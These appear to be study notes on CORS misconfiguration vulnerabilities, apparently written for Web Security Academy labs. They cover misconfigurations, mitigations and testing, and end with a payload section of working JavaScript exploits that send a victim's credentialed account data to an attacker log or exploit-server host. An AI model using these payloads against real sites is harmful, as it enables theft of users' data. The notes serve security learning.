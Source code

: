 ## 🔐 What is CORS?

**CORS (Cross-Origin Resource Sharing)** is a **security feature implemented by web browsers** to **restrict web pages** from making requests to a **different domain** than the one that served the web page, unless the target server explicitly allows it.

- Example: A web page from `https://example.com` cannot request data from `https://api.target.com` unless `api.target.com` explicitly allows it.
    

---

## 🔍 How CORS Works

1. **Browser makes a request to a different origin** (cross-origin).
    
2. **Preflight Request (OPTIONS)**: For non-simple requests (e.g., `PUT`, `DELETE`, custom headers), the browser first sends an `OPTIONS` request.
    
3. **Server responds with CORS headers**:
    
    - `Access-Control-Allow-Origin`
        
    - `Access-Control-Allow-Methods`
        
    - `Access-Control-Allow-Headers`
        
    - `Access-Control-Allow-Credentials` (if cookies or auth headers are involved)
        
4. If the response satisfies the browser’s CORS policy, the actual request proceeds.
    

---

## 💥 What is a CORS Vulnerability?

A **CORS vulnerability** occurs when a **server is misconfigured to allow requests from any origin or an untrusted origin**, thereby leaking sensitive information like user data, session tokens, etc., to attackers.

### Common Misconfigurations

| Misconfiguration                 | Description                                                                                  | Impact                                                           |
| -------------------------------- | -------------------------------------------------------------------------------------------- | ---------------------------------------------------------------- |
| `Access-Control-Allow-Origin: *` | Wildcard allows any domain                                                                   | **Severe** if used with `Access-Control-Allow-Credentials: true` |
| Reflecting Origin header         | Server sets `Access-Control-Allow-Origin` based on user-supplied `Origin` without validation | **Exploitable** if the attacker controls the origin              |
| Allowing `null` origin           | Browser uses `null` origin for local files, sandboxed iframes                                | Attackers can abuse local HTML files                             |
| Whitelisting subdomains loosely  | e.g., `*.example.com`                                                                        | Allows attacker-controlled subdomains                            |
| Allowing dangerous headers       | Overly permissive `Access-Control-Allow-Headers`                                             | Can enable unauthorized access                                   |

---

## ⚠️ CORS with Credentials

When the browser sends cookies or authorization headers in cross-origin requests:

- `Access-Control-Allow-Credentials: true` must be present.
    
- `Access-Control-Allow-Origin: *` **cannot** be used. Must be a specific origin.
    

> **Danger**: If a server sends both `Access-Control-Allow-Origin: *` and `Access-Control-Allow-Credentials: true`, it is **vulnerable**.

---

## 🧪 Exploiting CORS

If a site is vulnerable, an attacker can:

1. Host malicious JavaScript on their domain.
    
2. Lure a user (authenticated on the target) to visit the malicious site.
    
3. Use JavaScript (e.g., `fetch()` or `XMLHttpRequest`) to send authenticated requests to the target site.
    
4. Steal the response if CORS headers allow it.
    

javascript
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>


---

## 🛡️ Mitigation Strategies

| Mitigation                       | Description                                                         |
| -------------------------------- | ------------------------------------------------------------------- |
| Strict origin checks             | Never reflect the `Origin` header. Validate it against a whitelist. |
| Do not use `*` with credentials  | If credentials are required, specify the exact origin.              |
| Avoid overly permissive headers  | Only allow required headers and methods.                            |
| Use server-side token validation | Protect sensitive APIs with CSRF tokens or auth tokens.             |
| Consider same-origin policy      | For highly sensitive data, avoid cross-origin access entirely.      |

---

## 🔧 Example of Secure CORS Header

http
`Access-Control-Allow-Origin: https://trusted.example.com Access-Control-Allow-Methods: GET, POST Access-Control-Allow-Headers: Content-Type Access-Control-Allow-Credentials: true`

---

## 🔎 Testing for CORS Vulnerabilities

### Tools:

- **curl**:
    
`curl -H "Origin: https://evil.com" -I https://target.com/api`

- **Burp Suite**:
    
    - Use the Repeater to test `Origin` manipulation.
        
- **Online Tools**:
    
    - CORS scanners like `CORStest`, `CORSy`, or automated tools like `Nikto`.
        

---
## Does CORS and sop protect against CSRF?

CORS and sop does not provide protection against cross-site request forgery (CSRF) attacks, this is a common misconception.

CORS is a controlled relaxation of the same-origin policy, so poorly configured CORS may actually increase the possibility of CSRF attacks or exacerbate their impact.

There are various ways to perform CSRF attacks without using CORS, including simple HTML forms and cross-domain resource includes.

## Payload

**normal cors**
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>

**null cors**
**snabox** 
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a2700a304fd0ce981a13437004f009e.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>"></iframe>

**subdoamin xxs (wilcard)**



<script>
    document.location="https://stock.0a1500f6047ea3fd8096c6f500f1005b.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>

<script> 

